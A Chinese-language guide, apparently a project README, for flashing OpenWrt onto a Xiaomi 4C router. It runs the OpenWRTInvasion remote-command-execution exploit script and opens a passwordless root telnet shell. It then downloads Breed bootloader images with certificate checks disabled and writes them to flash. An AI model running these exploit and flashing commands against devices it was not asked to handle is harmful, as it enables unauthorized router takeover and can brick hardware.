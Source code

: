 系统开发者：德塔科技.

系统相关驱动开发：德塔科技

自编译操作系统

1.准备工作
win10+Ubuntu虚拟机 或者 Ubuntu：
小米路由器4c
安装好python3 和 pip3。
安装好 telnet（Mac下：brew install telnet）。
路由器和电脑都已经连接上网络。//这点很重要！

2.开始破解：
安装OpenWRTInvasion：在Ubuntu系统中输入下列命令：
git clone https://github.com/acecilia/OpenWRTInvasion //可能需要vpn
cd OpenWRTInvasion
pip3 install -r requirements.txt
python3 remote_command_execution_vulnerability.py

3.获取stock：
执行脚本后，会要求输入Route IP和stok。stok的获取方法：访问小米路由器后台管理地址，例如http://192.168.1.1，再查看当前的路由器管理后台的URL，在URL中某个参数就是stok。执行过程需要联网。（注意stok是"stok="后面的全部内容）

脚本执行成功后，执行：

telnet 你路由器的ip//一般是：192.168.32.1

用户是root，不需要密码，回车即可进入。

4.获取breed
在命令行中输入：
小米3A，3C，4A百兆版，4C：cd /tmp && wget  --no-check-certificate https://breed.hackpascal.net/breed-mt7688-reset38.bin && mv breed-mt7688-reset38.bin breed.bin
小米3G 和 小米4：cd /tmp && wget  --no-check-certificate https://breed.hackpascal.net/breed-mt7621-xiaomi-r3g.bin && mv breed-mt7621-xiaomi-r3g.bin breed.bin
小米4A千兆版 :cd /tmp && wget  --no-check-certificate https://breed.hackpascal.net/breed-mt7621-pbr-m1.bin && mv breed-mt7621-pbr-m1.bin breed.bin
5.刷breed：
在命令行中输入：mtd write breed.bin Bootloader
等待完成

6.进入breed：
路由器断电
按住路由器的重置建后插电，直到指示灯闪烁后熄灭，松开重置键
在浏览器里输入：192.168.1.1
然后点击固件备份，点击EEPROM下载eeprom.bin

7.刷机：
下载我们编译好的openwrt固件//此固件只适用于小米路由器4C
进入固件更新
EEPROM选择我们刚下载的eeprom
固件选择我们下载的openwrt固件
点击上传
点击更新
等待路由器的灯变成蓝色
在电脑浏览器里输入：192.168.1.1
用户名：root
没有密码
点击登录就行了

